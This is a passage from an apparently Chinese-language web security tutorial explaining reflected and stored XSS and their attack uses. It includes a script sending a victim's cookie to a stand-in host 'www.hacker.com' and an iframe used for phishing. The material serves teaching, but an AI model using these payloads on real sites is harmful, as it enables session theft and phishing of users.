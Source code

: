 ### 2.1.2 非持久xss
非持久型XSS（Non-persistent）又叫做反射XSS（Reflect XSS），它是指那些浏览器每次都要在参数中提交恶意数据才能触发的跨站脚本漏洞。像刚才demo演示的就是非持久xss，这种攻击一般就是将攻击代码以url的方式发送给用户，用户点击后就杯具泄漏了自己的个人信息了。

### 2.1.3 持久xss
持久型XSS（Persistent）又叫做存储XSS（Stored XSS），与非持久型XSS相反，它是指通过提交恶意数据到存储器（比如数据库、文本文件等），Web应用程序输出的时候是从存储器中读出恶意数据输出到页面的一类跨站脚本漏洞。 

下图是某BBS程序没有处理发帖正文中的恶意代码就直接存储到数据库中： 

![](/assets/img/14594083797373.jpg)

然后读帖子的时候程序从数据库中读出数据，结果数据中含有的恶意代码在浏览器执行了（此处仅演示弹出对话框）： 

![](/assets/img/14594084796046.jpg)

## 2.2 攻击

### 2.2.1 盗取cookie
Cookie是Web程序识别不同的用户的标识，如果得到某人的Cookie，黑客就可以以他的身份登陆网站了，所以跨站脚本攻击的第一个目标就是拿到它。想一想，如果是Web邮箱有一个XSS漏洞，当你查看一封邮件的时候，你的身份标识已经被别人拿到，黑客就可以自由出入你的邮箱了。 

```
<script> 
    document.write("<img src=http://www.hacker.com/getcookie.asp?c="+escape(document.cookie)+">"); 
</script>
```

这段代码就是输出img标签并访问黑客的Web服务器的一个ASP程序。注意，这里是把当前的Cookie作为参数发送出去了哦（为了避免出现特殊字符，这里使用了escape函数对Cookie进行URL编码）。

### 2.2.2 钓鱼攻击
钓鱼攻击（Phishing Attack）我想大家都看到过，就是经常在QQ、QQ游戏、空间等地方看到的中奖信息。利用XSS漏洞的钓鱼更加隐蔽且更具欺骗性。因为JavaScript脚本功能强大，我们可以利用它来更改整个页面内容，所以我们就可以制造出利用真的目标域名的假页面： 

```
<iframe width="100%" height="100%" src="http://hacker"></iframe> 
```
